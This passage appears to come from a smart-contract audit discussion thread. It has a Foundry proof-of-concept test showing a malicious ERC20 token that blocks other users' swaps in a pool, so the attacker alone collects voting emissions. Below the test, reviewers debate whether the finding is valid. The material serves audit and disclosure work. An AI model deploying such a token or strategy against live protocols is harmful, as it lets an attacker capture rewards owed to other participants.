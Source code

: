 ```solidity

        // Have someone else try to LP
        address victim = address(0x5445);
        vm.startPrank(victim);
        WETH.mint(address(victim), 1e18);
        WETH.transfer(address(newPool), 1e18);

        IPair asPair = IPair(newPool);

        bool isToken0 = address(maliciousToken) == asPair.token0() ? true : false;

        // Try to purchase one token, Malicious token will prevent it
        /***
            ├─ [8335] Pair::swap(1, 0, 0x0000000000000000000000000000000000005445, 0x)
            │   ├─ [4814] PairFactory::isPaused(Pair: [0x43A81261e92C7B789aBaA2ab3eBF5962BE91CDe9]) [staticcall]
            │   │   └─ ← [Return] false
            │   ├─ [720] MaliciousERC20::transfer(0x0000000000000000000000000000000000005445, 1)
            │   │   └─ ← [Revert] revert: Must be under control
            │   └─ ← [Revert] EvmError: Revert
         */
        // Error is not forwarded hence we just catch the revert, use -vvvv to verify my statement
        vm.expectRevert();
        IPair(newPool).swap(isToken0 ? 1 : 0, isToken0 ? 0 : 1, victim, hex"");

        vm.stopPrank();

        // We can now vote, knowing that all emissions we vote for can only be received by us
        // This is the most effective way to farm emission as our votes will never get diluted

        // Just ve.create_lock
        // Vote on the pool
        // Nobody else can farm these
    }
}
```

This will allow attackers to vote for pools for which they are the only LP, making voting 100% effective (no dilution)

**dawiddrzala**

you still need to get voting power and locked it to direct emission then it is your choice where you want to direct it, you can vote on main pool and that is going to be most likely more beneficial for you as you get liquid tokens, also we have pause option to stop emissions on the fake gauges 

**nevillehuang**

@GalloDaSballo Do you have any comments for the above? Personally, I don't think it is a valid argument for disputing validity.

**GalloDaSballo**

Thank you for the opportunity to comment
